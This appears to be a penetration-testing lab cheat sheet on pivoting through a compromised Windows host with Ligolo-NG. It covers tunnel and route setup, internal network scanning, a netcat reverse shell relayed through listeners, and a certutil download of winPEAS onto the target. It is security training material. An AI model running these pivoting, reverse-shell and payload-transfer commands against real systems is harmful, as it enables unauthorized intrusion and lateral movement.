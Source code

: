 # Using Ligolo-NG to pivot

## Downloading Ligolo-NG
1. Download a Ligolo agent file (Linux, Windows x86 and Windows x64)
	- `https://github.com/nicocha30/ligolo-ng/releases`
	
## Configuring the proxy (Attack Machine)
1. Add an interface to your kali machine and set that interface `up`
	- `sudo ip tuntap add user franglais mode tun ligolo`
	- `sudo ip link set ligolo up`
2. `cd` where you have your proxy executable and run it using `-selfcert`
	- `./proxy -selfcert`
3. Proxy server is now running - note that it's listening on `0.0.0.0:11601`

## Configure the Agent (Target Machine, MS-01)
1. Get the `agent` file onto the target machine
2. ***AFTER*** step 3 of the proxy config (proxy server running), run the agent
	- `.\agent.exe -connect <AttackIP:11601> -ignore-cert`
	- After a short delay, the agent is picked up by ligolo proxy srv
	
## Setting up the pivot
1. In ligolo srv, type `session` to use the correct session, then use it
2. `ifconfig` to show agent interface(s)
3. In the attack machine, open a new terminal and add a route to the routing table
	- `sudo ip route add 10.10.103.0/24 dev ligolo`
	- `ip route list` to confirm that it's there
4. In the ligolo srv, verify `session` and then run `start` to open the tunnel
	- `crackmapexec smb 10.10.103.0/24` to verify reaching internal network
	
## Using ligolo to receive reverse shells
1. Use `listener_list` to list listeners on your ligolo srv
2. Set up your listener on the attack machine. This will not work at first
	- `rlwrap nc -lvnp 4444`
3. Add a listener to the ligolo agent in ligolo srv and confirm it's active
	- `listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444`
	- `listener_list`
4. In the target machine, send your rev shell using the internal ip of MS-01 ***NOT*** the attack machine
	- `nc.exe 10.10.103.141 1234 -e cmd` (or your RCE exploit)

## Using ligolo to xfer files
1. Set up a new listener in ligolo srv for file xfers and confirm it's active
	- `listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:80` your "to" port should match the port you're goign to be serving on!!!
	- `listener_list` *you should have two listeners*
2. Set up your websrv in your attack machine
	- `python3 -m http.server`
3. *In your rev shell*, set your file xfer using the address of MS-01 pivot
	- `certutil.exe -URLCache -f http://10.10.103.142:1235 winPEASx64.exe winPEASx64.exe`
